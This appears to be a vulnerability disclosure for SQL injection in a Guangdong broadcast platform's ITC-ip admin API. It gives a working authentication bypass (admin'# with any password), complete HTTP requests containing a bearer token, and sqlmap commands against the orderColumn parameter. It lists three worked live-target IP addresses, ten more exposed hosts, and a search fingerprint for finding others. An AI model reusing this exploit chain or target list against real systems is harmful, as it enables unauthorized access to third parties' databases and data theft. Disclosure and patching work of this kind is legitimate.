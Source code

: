 sql injection exists in ITC-ip service broadcast platform of Guangdong Paulan Electronics Co., LTD

Vulnerability Description 

There is sql injection in the background of ITC-ip service broadcasting platform of Guangdong Baolun Electronics Co., LTD. Attackers can obtain sensitive database information through this vulnerability

Certificate of Company assets

![](.\picture\wps1.jpg)

https://pa.itc-pa.cn/

Affects Version: v2.0

Influence routing:

/api/v2/maps?page=1&limit=10&orderColumn=id\*&orderType=desc&likeName=

injection parameter:orderColumn

Space mapping： icon_hash="-568806419"

![](.\picture\wps2.jpg) 

Note: The vulnerability needs to log in to the background to obtain valid credentials to be carried out, you can use the front desk universal password    -admin‘#  Password-free access

Example I

 

 

http://60.170.49.111:81/login

use     admin’#/123456   Login successfully

![](.\picture\wps3.jpg) 

Call the following interface for sql injection, the cookie is time-sensitive, please review and replace it by yourself

GET /api/v2/maps?page=1&limit=10&orderColumn=id*&orderType=desc&likeName= HTTP/1.1

Host: 60.170.49.111:81

Accept: application/json, text/plain, */*

X-Requested-With: XMLHttpRequest

authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3MTYzOTgwOTgsImlhdCI6MTcxNjM5MDU5OCwiaXNzIjoiSVAiLCJwbGF0Zm9ybSI6IndlYiIsInN1YiI6ImFsbCIsInR5cCI6IkpXVCIsInVzZXJzX2lkIjoyfQ.bap1Bl--bYOVdzaFvQCLVPLSSHCb43XEfacMzcOnr5k

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36 Edg/125.0.0.0

Referer: http://60.170.49.111:81/monitor/map

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9

Connection: close

 

 

 

***\*python sqlmap.py -r ../url.txt --batch\**** 

![](.\picture\wps4.jpg) 

Instance II

[***\*http://110.53.52.41:82/login\****](http://110.53.52.41:82/login)

use admin'# / 123456 Login successfully

![](.\picture\wps5.jpg) 

Call the following interface for sql injection, the cookie is time-sensitive, please review and replace it by yourself

 

***\*GET /api/v2/maps?page=1&limit=10&orderColumn=id\*&orderType=desc&likeName= HTTP/1.1\****

***\*Host: 110.53.52.41:82\****

***\*Accept: application/json, text/plain, \*/\*\****

***\*X-Requested-With: XMLHttpRequest\****

***\*authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3MTYzOTgwOTgsImlhdCI6MTcxNjM5MDU5OCwiaXNzIjoiSVAiLCJwbGF0Zm9ybSI6IndlYiIsInN1YiI6ImFsbCIsInR5cCI6IkpXVCIsInVzZXJzX2lkIjoyfQ.bap1Bl--bYOVdzaFvQCLVPLSSHCb43XEfacMzcOnr5k\****

***\*User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36 Edg/125.0.0.0\****

***\*Referer: http://60.170.49.111:81/monitor/map\****

***\*Accept-Encoding: gzip, deflate\****

***\*Accept-Language: zh-CN,zh;q=0.9\****

***\*Connection: close\****

 

 

 

***\*python sqlmap.py -r ../url.txt --batch\**** 

![](.\picture\wps6.jpg) 

***Instance Ⅲ***

[***\*http://111.34.17.42:81/login\****](http://111.34.17.42:81/login)

*use admin'# / 123456 Login successfully*

![](.\picture\wps7.jpg) 

Call the following interface for sql injection, the cookie is time-sensitive, please review and replace it by yourself

 

GET /api/v2/maps?page=1&limit=10&orderColumn=id*&orderType=desc&likeName= HTTP/1.1

Host: 111.34.17.42:81

Accept: application/json, text/plain, */*

X-Requested-With: XMLHttpRequest

authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3MTYzOTgwOTgsImlhdCI6MTcxNjM5MDU5OCwiaXNzIjoiSVAiLCJwbGF0Zm9ybSI6IndlYiIsInN1YiI6ImFsbCIsInR5cCI6IkpXVCIsInVzZXJzX2lkIjoyfQ.bap1Bl--bYOVdzaFvQCLVPLSSHCb43XEfacMzcOnr5k

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36 Edg/125.0.0.0

Referer: http://60.170.49.111:81/monitor/map

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9

Connection: close

 

***\*python sqlmap.py -r ../url.txt --batch\****

![](.\picture\wps8.jpg) 

 

Other cases

\4. http://221.182.106.148:81/

\5. http://218.206.129.237:81/

\6. http://120.236.127.42:81/

\7. http://118.121.231.180:8181/login

\8. http://blojj2.sfsyxx.cn:81/login

\9. http://60.170.49.111:81/login

\10. http://58.42.97.3:81/login

\11. http://47.109.137.239/login

\12. http://61.157.98.107:8025/audio/media

\13. http://qjjsxy.com:81/login

 

# CNVD certificate number

CNVD-YCGW-202405084002

